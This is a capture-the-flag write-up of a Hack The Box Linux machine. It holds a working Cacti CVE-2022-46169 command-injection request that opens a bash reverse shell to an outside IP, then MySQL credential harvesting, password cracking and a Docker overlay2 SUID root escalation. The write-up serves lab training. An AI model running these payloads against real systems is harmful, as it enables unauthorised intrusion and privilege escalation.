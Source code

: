 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
## 🛰️ Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.211
nmap -p 22,80 -sCV 10.10.11.211
```

### Web Service
- Found Cacti login page on port 80.
- Version: **Cacti 1.2.22** (footer).
- Default creds don’t work.
- Possible CVE: **CVE-2022-46169** (unauth RCE via `poller_id` injection).

---

## 💥 Exploitation (Initial Shell)

### Auth Bypass + Command Injection (Manual)
```http
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=$(bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1')
Header: X-Forwarded-For: 127.0.0.1
```

### [Reverse Shell](HTTP)
```bash
nc -lvnp 443
```

Result: Shell as `www-data` inside **Docker container**.

---

## 🧠 Enumeration (Container)

- Hostname: 50bca5e748b0 → Docker container.
- Found MySQL creds in `/var/www/html/include/config.php`:
  ```text
  DB Host: db
  DB User: root
  DB Pass: root
  ```

### MySQL Access
```bash
mysql -h db -u root -proot cacti
```

### Users Table
```sql
SELECT username, password FROM user_auth;
```

- `marcus:$2y$10$vcrYth5YcCLlZaPD...`
- Cracked with `john` → Password: **funkymonkey**

---

## 📥 Shell as Marcus (Host)

```bash
sshpass -p 'funkymonkey' ssh marcus@10.10.11.211
```

---

## 🧨 Privilege Escalation (Root)

### CVEs Exploited:
- **CVE-2021-41091**
- **CVE-2021-41103**

### Docker Leak Exploitation
```bash
# From host:
ls /var/lib/docker/overlay2/<hash>/merged

# From container (as root):
cp /bin/bash /tmp/0xdf
chmod 4777 /tmp/0xdf
```

### Host Escalation
```bash
/var/lib/docker/overlay2/<hash>/merged/tmp/0xdf -p
```

→ Result: Root shell on host.

---

## 🏁 Flags

```bash
# User
cat /home/marcus/user.txt

# Root
cat /root/root.txt
```
